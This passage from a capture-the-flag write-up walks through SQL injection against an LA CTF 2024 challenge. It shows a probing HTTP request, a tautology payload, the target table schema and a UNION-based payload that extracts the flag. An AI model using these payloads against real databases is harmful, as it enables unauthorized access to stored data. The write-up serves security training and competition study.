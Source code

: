 ## Exploitation

**To do so, we first test the SQL injection vulnerability by using a single quote (`'`) in one of those parameters:**
```http
POST /submit HTTP/2
Host: la-housing.chall.lac.tf
Content-Type: application/x-www-form-urlencoded

name=siunam&guests=No+guests+at+all&neatness=Messy+is+ok&sleep=2am-4am&awake='
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219112000.png)

As expected, it respond us with HTTP status `500 Internal Server Error`, which means it's really vulnerable to SQL injection.

**Then, to overcome the comment filter, we can just leave the single quote open, like this:** 
```sql
' OR '1'='1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219112209.png)

Nice! It doesn't respond HTTP status `500 Internal Server Error`, and we got all the matches!

However, in order to get the flag from table `flag`, we need to leverage something else.

For instance, we can exploit it **with `UNION` clause**, this is call "**Union-based SQL injection**".

First, we need to figure out how many columns in the current table.

**To find out, we can view the database structure in `serv_zip/data.sql`:**
```sql
[...]
CREATE TABLE IF NOT EXISTS "users"
(
    id       integer not null
        constraint users_pk
            primary key autoincrement,
    name     TEXT,
    guests   TEXT,
    neatness text,
    sleep    TEXT    not null,
    awake    text
);
[...]
```

In here, **table `users` has 6 columns**, which are: `id`, `name`, `guests`, `neatness`, `sleep`, and `awake`.

**Then, we can use `UNION` clause to get data from another table, `flag`:**
```sql
' UNION SELECT NULL,NULL,NULL,NULL,NULL,flag FROM flag
```
